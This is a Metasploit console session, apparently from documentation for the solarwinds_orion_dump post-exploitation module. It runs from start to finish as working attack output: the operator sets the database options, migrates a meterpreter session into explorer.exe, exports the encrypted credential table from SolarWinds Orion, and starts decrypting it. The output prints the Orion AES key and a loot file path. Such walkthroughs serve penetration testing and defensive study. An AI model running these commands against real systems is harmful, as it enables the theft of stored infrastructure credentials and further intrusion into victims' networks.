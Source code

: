 ```
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > set MSSQL_INSTANCE tcp:cornflakes.cesium137.io
MSSQL_INSTANCE => tcp:cornflakes.cesium137.io
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > set MSSQL_DB SolarWindsOrion
MSSQL_DB => SolarWindsOrion
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > ps

Process List
============

 PID    PPID   Name                                     Arch  Session  User                                Path
 ---    ----   ----                                     ----  -------  ----                                ----
 0      0      [System Process]
 4      0      System                                   x64   0
 [...]
 10704  10636  explorer.exe                             x64   1        CESIUM137\operatorman               C:\Windows\explorer.exe
 [...]

meterpreter > migrate 10704
[*] Migrating from 17108 to 10704...
[*] Migration completed successfully.
meterpreter > bg
[*] Backgrounding session 1...
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > export

[*] Hostname WINNING IPv4 192.168.101.125
[*] SolarWinds Orion Build 2020.2.65120.0
[*] SolarWinds Orion Install Path: C:\Program Files (x86)\SolarWinds\Orion\
[*] Init SolarWinds Crypto ...
[+] Orion AES Encryption Key
[+]     HEX: 2F627B78981DEADE0447CC7BDDEADE4E84FCB96AF1C6DEAD621F28547E93A82
[*] Extract SolarWinds Orion SSL Certificate Private Key ...
[*] MSSQL_INSTANCE and MSSQL_DB advanced options set, connect to SQL using SSPI
[+] SolarWinds Orion SQL Database Connection Configuration:
[+]     Instance Name: tcp:cornflakes.cesium137.io
[+]     Database Name: SolarWindsOrion
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[*] Performing export of SolarWinds Orion SQL database to CSV file
[*] Export SolarWinds Orion DB ...
[+] 10 rows exported, 6 unique CredentialIDs
[+] Encrypted SolarWinds Orion Database Dump: /root/.msf4/loot/20221118091938_default_192.168.101.125_solarwinds_orion_412973.txt
[*] Post module execution completed
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > set CSV_FILE /root/.msf4/loot/20221118091938_default_192.168.101.125_solarwinds_orion_412973.txt
CSV_FILE => /root/.msf4/loot/20221118091938_default_192.168.101.125_solarwinds_orion_412973.txt
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > decrypt 

[*] Hostname WINNING IPv4 192.168.101.125
[*] SolarWinds Orion Build 2020.2.65120.0
[*] SolarWinds Orion Install Path: C:\Program Files (x86)\SolarWinds\Orion\
[*] Init SolarWinds Crypto ...
[+] Orion AES Encryption Key
[+]     HEX: 2F627B78981DEADE0447CC7BDDEADE4E84FCB96AF1C6DEAD621F28547E93A82
[*] Extract SolarWinds Orion SSL Certificate Private Key ...
```